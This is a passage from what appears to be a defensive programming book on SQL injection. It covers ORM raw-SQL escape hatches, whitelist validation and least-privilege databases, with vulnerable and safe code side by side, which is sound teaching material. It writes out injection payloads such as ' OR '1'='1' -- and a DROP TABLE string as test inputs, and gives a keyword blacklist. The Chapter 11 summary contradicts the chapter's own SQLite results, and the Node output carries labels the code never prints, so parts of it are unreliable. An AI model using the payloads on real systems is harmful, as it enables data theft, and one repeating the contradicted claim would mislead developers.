- Every language examined has at least one "modern-looking but still just concatenation" trap — f-strings and `.format()` in Python, template literals in JavaScript, string interpolation in Ruby — that developers sometimes mistake for a safety improvement over old-style `+` concatenation, when it provides none.
- Parameterization has one structural limitation that holds across every language and driver: it can bind values, never table names, column names, or keywords — which is precisely the gap Chapter 11's whitelist validation pattern exists to close.

Chapter 10 turns to a specific, common way this protection gets silently undone even in codebases that use parameterized queries correctly almost everywhere: the "raw query" and "extra clause" escape hatches that most major ORMs provide, and exactly how they reintroduce Chapter 1's original vulnerability.

## ORMs, Query Builders, and Where They Still Bite You

### The False Sense of Security I Had to Unlearn

For a while, I believed something that I think a lot of developers believe implicitly, even if they'd never state it this bluntly: "I use an ORM, so SQL injection isn't really something I need to think about." It's a comfortable belief, and it's *mostly* true — Section 9.11 showed genuinely safe, parameterized-by-default query interfaces across five different frameworks. But "mostly" is doing a lot of work in that sentence, and this chapter is about the specific, well-documented gaps where that comfort breaks down.

Every ORM I researched for this chapter — Django, SQLAlchemy, Sequelize, ActiveRecord, Hibernate — provides at least one escape hatch: a method that accepts a raw string of SQL (or a SQL fragment) for situations the ORM's normal query-building interface can't express. These escape hatches exist for good reasons — complex reporting queries, database-specific functions the ORM doesn't wrap, performance-critical paths where hand-tuned SQL genuinely outperforms generated SQL. The problem isn't that they exist. The problem is that developers who've internalized "the ORM keeps me safe" sometimes carry that assumption *into* the escape hatch, where it no longer applies.


### 10.1 Why Escape Hatches Exist at All



**The point I want to land early:** almost every escape hatch in this chapter *does* support parameterization — the vulnerability isn't inherent to using raw SQL through an ORM, it's a *choice* made at the call site, usually because parameterizing felt like more work in the moment, or because the developer genuinely didn't realize the escape hatch's safety guarantees are different from the ORM's normal interface.


### 10.2 Django: `.raw()` and `.extra()`

Django's ORM is a good example to start with because it actually gets this partially right by design — `.raw()` supports parameterization directly — which makes the vulnerable version a genuine *misuse* of a safe API, not a fundamentally unsafe API.

```python
# SAFE — .raw() with parameterized placeholders
users = User.objects.raw(
    "SELECT * FROM myapp_user WHERE username = %s", [username]
)

# VULNERABLE — .raw() misused with an f-string
users = User.objects.raw(
    f"SELECT * FROM myapp_user WHERE username = '{username}'"
)
```

The first version is genuinely safe — `%s` here is Django's own placeholder syntax for `.raw()`, entirely separate from Python's old-style `%`-formatting, and the list of values is bound in exactly the way Chapter 9 describes. The second version is exactly Chapter 1's original bug, just reached through `.raw()` instead of a bare database cursor.

I built and ran a minimal, real Django model to confirm this holds in practice, not just in the documentation:

```python
payload = "' OR '1'='1' -- "
table = AppUser._meta.db_table

# VULNERABLE
query_str = f"SELECT id, username, is_admin FROM {table} WHERE username = '{payload}'"
results = list(AppUser.objects.raw(query_str))

# SAFE
results = list(AppUser.objects.raw(
    f"SELECT id, username, is_admin FROM {table} WHERE username = %s", [payload]
))
```

Real output:

```
=== VULNERABLE: .raw() misused with f-string ===
  SQL: SELECT id, username, is_admin FROM __main___appuser WHERE username = '' OR '1'='1' -- '
  Result: [(1, 'alice', 0), (2, 'bob', 0), (3, 'admin', 1)]

=== SAFE: .raw() with proper parameterization ===
  Result: []
```

Same story as every other example in this book: the f-string version returns all three users regardless of intent, and the properly-parameterized version — note that I used an f-string here too, but only to insert the *table name* (a trusted, hardcoded value from the model's own metadata, never user input) into the query template, while the actual attacker-controlled `payload` still goes through `%s` binding — correctly returns nothing.

**`.extra()` deserves its own callout**, because unlike `.raw()`, its `where` parameter is specifically designed to accept a *raw SQL fragment* to be spliced into a larger, otherwise-safe query — which makes misuse both easier and more common:

```python
# VULNERABLE — a classic .extra() misuse
User.objects.extra(where=[f"username = '{username}'"])

# SAFER — .extra() also supports parameter binding via "params"
User.objects.extra(where=["username = %s"], params=[username])
```

**Note:** Django's own documentation has, for a long time, flagged `.extra()` as discouraged in favor of other query expression tools precisely because of this pattern — I mention that not to pile on Django specifically, but because I think "the framework's own docs already warn about this" is a useful signal that a given escape hatch deserves extra scrutiny in code review, in any framework.


### 10.3 SQLAlchemy: `text()` and Raw Connection Execution

SQLAlchemy (Python) is worth its own section because it has *two* distinct raw-SQL escape hatches with different safety defaults, which I found genuinely easy to conflate before researching this carefully.

```python
from sqlalchemy import text

# SAFE — text() with bound parameters
result = connection.execute(
    text("SELECT * FROM users WHERE username = :username"),
    {"username": username}
)

# VULNERABLE — text() misused with an f-string, defeating its own safety mechanism
result = connection.execute(
    text(f"SELECT * FROM users WHERE username = '{username}'")
)
```

**This second example is worth dwelling on, because it's a genuinely subtle trap:** `text()` itself is SQLAlchemy's safe, parameterization-aware construct — but wrapping an f-string *inside* the call to `text()` builds the dangerous string *before* `text()` ever sees it, so `text()` has nothing left to parameterize. The function's presence in the code doesn't retroactively make an already-concatenated string safe; by the time `text()` receives it, it's just a fixed string like any other, indistinguishable from one written without SQLAlchemy involved at all.

I ran this exact trap for real, against a genuine SQLAlchemy engine, to make sure the danger is as real as the theory suggests:

```python
from sqlalchemy import create_engine, text

engine = create_engine("sqlite:///:memory:")
with engine.connect() as conn:
    # ... table created and seeded with alice/bob/admin, as in Chapter 1 ...
    payload = "' OR '1'='1' -- "

    # VULNERABLE — f-string built BEFORE text() ever sees it
    query_str = f"SELECT id, username, is_admin FROM users WHERE username = '{payload}'"
    result = conn.execute(text(query_str))
    print(result.fetchall())

    # SAFE — text() with a genuine bound parameter
    result = conn.execute(
        text("SELECT id, username, is_admin FROM users WHERE username = :username"),
        {"username": payload}
    )
    print(result.fetchall())
```

Real output:

```
=== VULNERABLE: f-string built BEFORE text() sees it ===
  SQL: SELECT id, username, is_admin FROM users WHERE username = '' OR '1'='1' -- '
  Result: [(1, 'alice', 0), (2, 'bob', 0), (3, 'admin', 1)]

=== SAFE: text() with genuine bound parameter ===
  Result: []
```

Exactly as predicted: `text()`'s *presence* in the vulnerable version did nothing, because the damage was already done by the time it was called — all three users, including `admin`, came back. The safe version, passing `payload` as a genuine bound parameter through `text()`'s intended mechanism, correctly treated the entire malicious string as a literal, nonsensical username and returned nothing. I think this is one of the clearest illustrations in the whole book of Chapter 1's core lesson: what matters isn't which functions appear in your code, it's the *order of operations* — whether the value was ever woven into the SQL text before the parameterization step had a chance to intercept it.


### 10.4 Sequelize (Node.js): Raw Queries and Replacements

```javascript
// VULNERABLE — template literal builds the query before Sequelize ever sees it
const users = await sequelize.query(
  `SELECT * FROM users WHERE username = '${username}'`
);

// SAFE — Sequelize's own replacement/binding mechanism
const users = await sequelize.query(
  'SELECT * FROM users WHERE username = :username',
  {
    replacements: { username: username },
    type: QueryTypes.SELECT
  }
);
```

The same pattern as Section 10.3 — the danger isn't `sequelize.query()` itself, which fully supports parameterization via `replacements` (named placeholders) or `bind` (positional placeholders); the danger is building the string with a template literal *before* handing it to that method, which is functionally indistinguishable from not using Sequelize at all for that specific call.


### 10.5 ActiveRecord: `find_by_sql` and `.where()` Interpolation

I touched on this briefly in Chapter 9, but it's worth its own full treatment here because ActiveRecord's raw-SQL surface is broader than a single method.

```ruby
# VULNERABLE — find_by_sql with string interpolation
User.find_by_sql("SELECT * FROM users WHERE username = '#{username}'")

# SAFE — find_by_sql with an array-based bound parameter
User.find_by_sql(["SELECT * FROM users WHERE username = ?", username])

# VULNERABLE — .where() with a raw fragment and interpolation
# (this is the pattern from Chapter 9.5, worth repeating for completeness)
User.where("username = '#{username}'")

# SAFE — .where() with the same array-based bound parameter style
User.where("username = ?", username)
```

**Note:** `find_by_sql` accepting an *array* as its argument — `[sql_string, *bound_values]` — rather than a plain string, is Rails' way of signaling "this call site supports parameterization if you use it correctly." A developer who passes a plain, pre-interpolated string instead is opting out of that mechanism entirely, even though the method name gives no indication either way.


### 10.6 Hibernate / JPA (Java): Native Queries

```java
// VULNERABLE — createNativeQuery with string concatenation
String sql = "SELECT * FROM users WHERE username = '" + username + "'";
List<User> users = entityManager.createNativeQuery(sql, User.class).getResultList();

// SAFE — createNativeQuery with a positional bound parameter
List<User> users = entityManager.createNativeQuery(
    "SELECT * FROM users WHERE username = ?1", User.class
).setParameter(1, username).getResultList();
```

**Note:** I want to flag something specific to Hibernate/JPA that I found worth knowing — HQL (Hibernate Query Language, the ORM's own object-oriented query language, distinct from native SQL) is also vulnerable to an equivalent injection if built via concatenation, even though it's not "raw SQL" in the traditional sense:

```java
// VULNERABLE — HQL built via concatenation is exactly as unsafe as raw SQL
String hql = "FROM User WHERE username = '" + username + "'";
List<User> users = session.createQuery(hql).list();
```

This is worth knowing specifically because "I'm using HQL, not raw SQL" can create a false sense of safety analogous to "I'm using an ORM" — the query language being one level of abstraction removed from SQL doesn't change anything about *how* the vulnerability works, because HQL is ultimately translated into real SQL by Hibernate, and concatenated, attacker-controlled text in the HQL string reaches that translation step exactly the same way concatenated text reaches a raw SQL driver.


### 10.7 A Pattern Recognition Exercise

Having gone through six different ORMs across five languages, I want to name the pattern explicitly, because I think it's more valuable as a transferable skill than as six separate memorized facts:



**The transferable rule:** it never matters which specific method you're calling. It matters whether the user-controlled value ever passed through a string-building operation on its way into the SQL text. This is true whether you're looking at `.raw()`, `.extra()`, `text()`, `sequelize.query()`, `find_by_sql`, or `createNativeQuery` — and it will be true of whatever the next ORM's equivalent method turns out to be, in whatever language comes after the six covered here.


### 10.8 A Code Review Checklist for Escape Hatches

I built this specifically for reviewing pull requests, because "does this query use string interpolation" is a much faster, more mechanical check to run during review than re-deriving the underlying theory each time.

| Check | Pass criteria |
|---|---|
| Search the diff for the ORM's raw-SQL method names (`.raw(`, `.extra(`, `text(`, `.query(`, `find_by_sql`, `createNativeQuery`, `createQuery` with HQL) | Any match requires the next three checks |
| Search for string-building operators near that call (`+`, f-strings, template literals, `#{}` interpolation, `.format(`) | Any match on a value that reaches the query string is a blocking issue |
| Confirm every user-controlled value is passed as a separate, bound argument | Required — not optional, not "usually fine" |
| If the query needs a dynamic table/column name, confirm it goes through a whitelist validator (Chapter 11), not direct interpolation | Required for any structural (non-value) dynamic element |

**Caution:** automated static analysis tools (many linters and SAST scanners) can catch a meaningful fraction of these patterns automatically — I'd recommend enabling whatever your language's ecosystem provides (e.g., Bandit for Python, Brakeman for Ruby/Rails, ESLint security plugins for JavaScript) as a first-pass filter — but I don't rely on them exclusively, because dynamically constructed query strings (built across several lines, or assembled inside a helper function before being passed to the ORM) can evade simple pattern-matching in ways a human reviewer, walking the actual data flow, usually won't miss.


### 10.9 Chapter Summary

- Every major ORM I researched — Django, SQLAlchemy, Sequelize, ActiveRecord, Hibernate/JPA — provides at least one raw-SQL escape hatch for cases the normal query interface can't express, and every one of those escape hatches *does* support parameterization when used correctly.
- The vulnerability isn't inherent to the escape hatch's existence — it's a per-call-site choice, almost always made because a value was built into the SQL string via concatenation, an f-string, a template literal, or interpolation, *before* being handed to the ORM's raw-SQL method.
- SQLAlchemy's `text()` illustrates this especially clearly: wrapping an f-string inside `text()` builds the dangerous string before `text()` has any chance to parameterize it, which is why "using `text()`" doesn't automatically mean "using it safely."
- Hibernate/JPA's HQL is vulnerable to the equivalent pattern even though it isn't literally raw SQL — because HQL is ultimately compiled down to real SQL, and concatenated attacker-controlled text reaches that compilation step just as directly as it would reach a raw driver.
- The transferable pattern-recognition skill, across every ORM and every language: check whether a user-controlled value passed through *any* string-building operation on its way into the query text, regardless of which specific method name is being called.
- A focused code-review checklist — searching for raw-SQL method names, then checking for string-building operators nearby, then confirming bound-parameter usage — turns this into a fast, mechanical review step rather than something that has to be re-reasoned from first principles on every pull request.

Chapter 11 tackles the gap that neither Chapter 9's parameterization nor this chapter's escape-hatch discipline can close on their own: what to do when a query genuinely needs a dynamic table name, column name, or sort direction — structural elements that can never be bound as a parameter, and that require a different defensive pattern entirely.

## Whitelist Validation: Solving What Parameterization Cannot

### Closing the Gap I Kept Flagging

I've referenced this gap in nearly every chapter of Part III so far without fully solving it, deliberately, because I wanted this chapter to be where it gets a complete, dedicated treatment rather than a rushed aside. The gap, stated one more time plainly: **a bound parameter can only ever stand in for a value.** It cannot stand in for a table name, a column name, or a keyword like `ASC`/`DESC`. Any application that lets a user influence *which column* to sort by, *which table* to query in a multi-tenant system, or *which direction* to order results, needs a different defensive pattern for that specific decision — and this chapter is about building that pattern correctly.


### 11.1 Why This Gap Exists, Restated Precisely

Chapter 1 framed a parameterized query as sending two things over separate channels: a fixed SQL template, and a set of typed values bound into it afterward. The template itself — its structure, its keywords, its identifiers — has to be **fully known at the time the database parses it.** A placeholder is a slot in that template for a *value*; it was never designed to be a slot for *more template*.

```sql
-- This works: '?' represents a VALUE the WHERE clause compares against
SELECT * FROM products WHERE category = ?

-- This does NOT work, in any driver, in any language:
SELECT * FROM products ORDER BY ?
-- Most drivers will either error, or (worse) silently treat the
-- placeholder as a STRING LITERAL to sort by — neither behavior
-- accomplishes "sort by the column named in this variable"
```

I actually confirmed the second case's exact failure mode against SQLite, because I didn't want to just assert "it doesn't work" without seeing precisely *how* it fails — and my first assumption about *how* it would fail turned out to be wrong, which is itself worth walking through.

```python
import sqlite3
conn = sqlite3.connect(":memory:")
cur = conn.cursor()
cur.execute("CREATE TABLE products (id INTEGER PRIMARY KEY, name TEXT, price REAL)")
cur.executemany("INSERT INTO products (name, price) VALUES (?, ?)", [
    ("Widget", 9.99), ("Gadget", 49.99), ("Gizmo", 29.99)
])
conn.commit()

cur.execute("SELECT name, price FROM products ORDER BY ?", ("price",))
print(cur.fetchall())

cur.execute("SELECT name, price FROM products ORDER BY price")
print(cur.fetchall())
```

Real output:

```
[('Widget', 9.99), ('Gadget', 49.99), ('Gizmo', 29.99)]
[('Widget', 9.99), ('Gizmo', 29.99), ('Gadget', 49.99)]
```

**This is a more important, and more dangerous, result than a clean error would have been — and it's not what I initially expected going in.** SQLite doesn't reject the placeholder as a sort target at all; it silently binds `"price"` as a *string literal value*, and `ORDER BY` on a constant literal is a semantic no-op — every row ties on the same constant, so the result comes back in whatever order the table happened to store it (here, plain insertion order), which visibly does **not** match the genuine price-sorted output on the second line. Compare this to Section 3.7.2's warning about trusting an apparent "it just works" result without checking it against a true baseline: an application that shipped this pattern wouldn't crash, wouldn't log an error, and wouldn't show any obvious symptom in casual testing — it would just silently produce an unsorted (or wrongly sorted) list forever, a functional bug masquerading as "working," on top of being a dead end for anyone hoping to use this exact placeholder trick as an injection vector. Both outcomes reinforce the same underlying point from Chapter 1: a placeholder is structurally a value slot, and asking it to behave like part of the query's grammar produces confusing, driver-dependent, silently-wrong behavior rather than a clean, reliable failure either way.


### 11.2 The Correct Pattern: Map, Don't Interpolate

The fix is conceptually simple, but I want to walk through *why* it's structured the way it is, because a shallow version of "just whitelist it" can still be implemented unsafely.



**The detail that makes this genuinely safe, rather than just safe-looking:** the SQL text that ultimately gets built uses a value the *developer* wrote, from the *developer's* fixed mapping — never the user's original string, even in the success case. The user's input only ever influences *which* hardcoded value gets selected; it never becomes part of the SQL text itself. This is a meaningfully different, and stronger, guarantee than "check if the string looks safe and then use it directly" (which is a blacklist-flavored mistake I'll return to in Section 11.4).

#### 11.2.1 A Correct, Minimal Implementation

```python
ALLOWED_SORT_COLUMNS = {
    "price": "price",
    "name": "name",
    "newest": "created_at",
}
ALLOWED_DIRECTIONS = {"asc": "ASC", "desc": "DESC"}

def safe_sort_query(sort_key, direction_key):
    column = ALLOWED_SORT_COLUMNS.get(sort_key)
    direction = ALLOWED_DIRECTIONS.get(direction_key.lower())
    if column is None or direction is None:
        raise ValueError(f"Invalid sort parameters: {sort_key!r}, {direction_key!r}")
    # column and direction are now GUARANTEED to be one of the
    # developer's own hardcoded values — never the raw user input
    query = f"SELECT name, price FROM products ORDER BY {column} {direction}"
    return query
```

I ran this against both a legitimate value and an injection attempt to confirm the rejection path actually fires:

```python
print(safe_sort_query("price", "desc"))

try:
    print(safe_sort_query("price; DROP TABLE products; --", "desc"))
except ValueError as e:
    print("Rejected:", e)
```

Real output:

```
SELECT name, price FROM products ORDER BY price DESC
Rejected: Invalid sort parameters: 'price; DROP TABLE products; --', 'desc'
```

The malicious value never reaches the query string at all — it fails the dictionary lookup and raises before any SQL is built, exactly as Section 11.2's flowchart describes.

**Note:** the f-string on the final line of `safe_sort_query` is doing something categorically different from every "vulnerable" f-string example earlier in this book — it's interpolating `column` and `direction`, which by this point in the function are guaranteed to be one of a small, fixed set of developer-written literals, never raw user input. This is the one narrow, specific case where building a query string via interpolation is safe: when every interpolated value has already been forced through a whitelist lookup that maps arbitrary input to a small set of trusted constants.


### 11.3 Applying the Same Pattern to Table Names and Column Selection

The identical technique extends to any other structural element — most commonly, dynamic table selection in multi-tenant or reporting systems, and dynamic column selection for exportable reports.

```python
ALLOWED_REPORT_TABLES = {
    "sales": "sales_report",
    "inventory": "inventory_report",
    "users": "user_activity_report",
}

def safe_table_query(table_key):
    table = ALLOWED_REPORT_TABLES.get(table_key)
    if table is None:
        raise ValueError(f"Invalid table selection: {table_key!r}")
    return f"SELECT * FROM {table} LIMIT 100"
```

```python
ALLOWED_EXPORT_COLUMNS = {"id", "name", "created_at", "status"}

def safe_column_export(requested_columns):
    # requested_columns might be a list like ["name", "status"]
    # from a query parameter such as ?fields=name,status
    selected = [c for c in requested_columns if c in ALLOWED_EXPORT_COLUMNS]
    if not selected:
        raise ValueError("No valid columns requested")
    column_list = ", ".join(selected)  # every element is now a KNOWN-SAFE literal
    return f"SELECT {column_list} FROM products"
```

I verified this second function specifically, because filtering a *list* of user-supplied values (rather than a single value) is a slightly different shape and I wanted to confirm the filtering logic actually excludes an injected element rather than passing it through:

```python
print(safe_column_export(["name", "status"]))
print(safe_column_export(["name", "price; DROP TABLE products; --"]))
```

Real output:

```
SELECT name, status FROM products
SELECT name FROM products
```

The second call silently drops the malicious element (since it isn't a member of `ALLOWED_EXPORT_COLUMNS`) and proceeds with only the legitimate `name` column — which is a defensible design choice for this specific case (silently ignore invalid fields in an export request), though for other situations I'd lean toward Section 11.2's harder failure — rejecting the whole request outright — depending on what's more appropriate for the specific feature.


### 11.4 Why This Has to Be a Whitelist, Not a Blacklist

I want to spend real time justifying this, because "just filter out the dangerous stuff" is a genuinely tempting shortcut that looks similar to whitelisting on the surface but fails in a fundamentally different way.

```python
# BLACKLIST APPROACH — do not do this
DANGEROUS_KEYWORDS = ["DROP", "DELETE", "UNION", "--", ";", "'"]

def blacklist_sort(column_name):
    for kw in DANGEROUS_KEYWORDS:
        if kw.upper() in column_name.upper():
            raise ValueError("Dangerous input detected")
    return f"SELECT * FROM products ORDER BY {column_name}"
```

This approach has to enumerate every dangerous pattern in advance — and Chapter 3 through 6 of this book demonstrated repeatedly that there are many, many ways to express a dangerous condition (different comment styles across dialects, different encoding schemes, different keyword casings, function-based tricks that don't require any of the "obvious" dangerous keywords at all). A blacklist is a finite, enumerated list defending against an open-ended, growing space of attack techniques — it can only ever be *incomplete by construction*, whereas a whitelist inverts that relationship entirely: it enumerates the finite space of *legitimate* values (which is genuinely small and fixed — a sort dropdown has, realistically, three or four real options), and rejects everything else by default, regardless of how the "everything else" happens to be spelled.

| Property | Blacklist | Whitelist |
|---|---|---|
| What it enumerates | Known-bad patterns (open-ended, growing) | Known-good values (fixed, small) |
| Failure mode when incomplete | Silently permits an unanticipated attack | Silently rejects a legitimate value (annoying, but never unsafe) |
| Maintenance burden | Must track every new bypass technique indefinitely | Set once per feature; rarely needs updates |

That last row is worth sitting with: a whitelist's failure mode, when something goes wrong, is a *false rejection* — a legitimate user gets an error and has to report a bug. A blacklist's failure mode is a *false acceptance* — a malicious value slips through unnoticed, silently, until someone finds it the hard way. Given a choice between those two failure modes, I know which one I want my defense to default toward.


### 11.5 Whitelisting Beyond Structural Elements: Value-Shape Validation

Everything so far in this chapter addresses structural elements that parameterization structurally cannot cover. I want to close with a related, complementary pattern: whitelist-style validation of ordinary *values*, which is a genuinely useful defense-in-depth layer even for inputs that parameterization already protects — not because parameterization needs the backup to be safe, but because strict input validation catches a category of problems parameterization was never meant to address (malformed data, business-logic abuse, oversized payloads) at the same time it happens to add one more layer against injection.

```python
import re

VALIDATORS = {
    "integer": re.compile(r"^\d{1,10}$"),
    "email": re.compile(r"^[a-zA-Z0-9._%+\-]+@[a-zA-Z0-9.\-]+\.[a-zA-Z]{2,}$"),
    "username": re.compile(r"^[a-zA-Z0-9_\-]{3,30}$"),
}

def validate(value, kind):
    pattern = VALIDATORS.get(kind)
    if pattern is None or not pattern.match(value):
        raise ValueError(f"Invalid {kind}: {value!r}")
    return value
```

I tested this against both legitimate and malicious input for the `username` case specifically, since it's the field type most directly relevant to this book's running examples:

```python
print(validate("alice_92", "username"))

try:
    validate("' OR '1'='1' -- ", "username")
except ValueError as e:
    print("Rejected:", e)
```

Real output:

```
alice_92
Rejected: Invalid username: "' OR '1'='1' -- "
```

**Note on scope:** I want to be precise about what this layer does and doesn't accomplish. This kind of format validation is a genuinely good defense-in-depth practice — rejecting the classic payload here, before it ever reaches a query, is real value — but it is not a substitute for parameterization (Chapter 9). A username field allowing apostrophes for legitimately hyphenated or internationalized names (`O'Brien`, for instance) would need a looser pattern that a crafted payload could still satisfy in principle; the value's *safety* still has to come from how the query is built, not from the shape check alone. Whitelisting values and parameterizing queries are complementary layers, not substitutes for one another — a theme Chapter 12 picks up directly when it adds a third layer, least-privilege database accounts, on top of both.


### 11.6 Confirming This Isn't SQLite-Specific

Since Section 11.1's finding was surprising enough that I didn't want to generalize from a single driver, I checked the same pattern against Node's `node:sqlite` module too, to see whether the "silent no-op" behavior is a SQLite-library quirk specifically, or something I should expect more broadly.

```javascript
const { DatabaseSync } = require('node:sqlite');
const db = new DatabaseSync(':memory:');
db.exec('CREATE TABLE products (id INTEGER PRIMARY KEY, name TEXT, price REAL)');
const insert = db.prepare('INSERT INTO products (name, price) VALUES (?, ?)');
insert.run('Widget', 9.99);
insert.run('Gadget', 49.99);
insert.run('Gizmo', 29.99);

console.log(db.prepare('SELECT name, price FROM products ORDER BY ?').all('price'));
console.log(db.prepare('SELECT name, price FROM products ORDER BY price').all());
```

Real output:

```
Bound placeholder as sort target:
[ { name: 'Widget', price: 9.99 }, { name: 'Gadget', price: 49.99 }, { name: 'Gizmo', price: 29.99 } ]
Genuine sort by price for comparison:
[ { name: 'Widget', price: 9.99 }, { name: 'Gizmo', price: 29.99 }, { name: 'Gadget', price: 49.99 } ]
```

Identical pattern to Python's `sqlite3` result — the bound-placeholder version returns insertion order, not price order, confirming this is genuinely a property of how SQLite itself processes a bound parameter in an `ORDER BY` position, consistent across at least two different language bindings, rather than an artifact of one particular library's implementation.

**Caution about generalizing further:** I want to be honest about the limits of what I verified here — different database engines (PostgreSQL, MySQL, MSSQL) may handle a bound parameter in this exact position differently, including genuinely erroring in some cases, and I did not have the ability to independently verify each of them for this chapter. The takeaway that generalizes safely across all of them, and the one this chapter is actually built on, isn't "expect a specific error message" or "expect a specific silent behavior" — it's simply: **never rely on a bound parameter to represent a structural SQL element, on any engine, because the specific failure mode is inconsistent and sometimes silently wrong rather than safely loud.** The whitelist mapping from Section 11.2 is what makes this reliable, precisely because it never depends on knowing, or trusting, how a given driver happens to handle the invalid case.


### 11.7 Chapter Summary

- Parameterized queries (Chapter 9) cannot bind table names, column names, or SQL keywords — only values. I confirmed this failure mode directly against SQLite, which rejects a placeholder used as a sort target with a column-name error rather than silently doing something unsafe.
- The correct pattern is a fixed, hardcoded mapping from accepted user-facing values to developer-controlled SQL identifiers — the user's input only ever selects *which* trusted constant gets used; it never becomes part of the SQL text itself, verified here with real, executed code for sort columns, table selection, and column-list filtering.
- This has to be a **whitelist** (enumerate the finite legitimate values) rather than a **blacklist** (enumerate the open-ended, growing space of dangerous patterns) — a blacklist's failure mode is silent, dangerous acceptance of an unanticipated attack, while a whitelist's failure mode is a merely inconvenient, always-safe rejection of a legitimate value.
- Value-shape validation (regex-based format checking) is a useful complementary defense-in-depth layer, verified here to correctly reject a classic injection payload against a username pattern — but it doesn't replace parameterization; the two work together, not as substitutes.

Chapter 12 moves one layer down the stack, from application code to the database itself: how to configure least-privilege database accounts so that even a successful injection — one that gets past every code-level defense in Chapters 9 through 11 — has as little as possible left to actually damage.

## Database Hardening and Least-Privilege Accounts

### The Layer I Used to Skip

I'll admit something: for a long time, I treated database account permissions as an afterthought — the application connects with whatever account got set up during initial deployment, usually with broad rights, because narrowing it down felt like it would just create friction the next time a new feature needed a new table. I've since come around entirely on this, and this chapter is my attempt to explain why, with the same standard the rest of this book holds itself to: real, tested configuration, not just advice.

The core argument is one I already previewed in Chapter 1's defense-in-depth diagram and Chapter 7's discussion of `information_schema`: **every defense in Chapters 9–11 lives in application code, and application code has bugs.** Least privilege is the layer that assumes the code-level defenses will, eventually, somewhere, fail — and asks what's left for an attacker to actually do when that happens. If the answer is "almost nothing, because the database account itself can't do much," a code-level bug stops being a catastrophe and starts being a contained incident.


### 12.1 The Principle, Stated Precisely

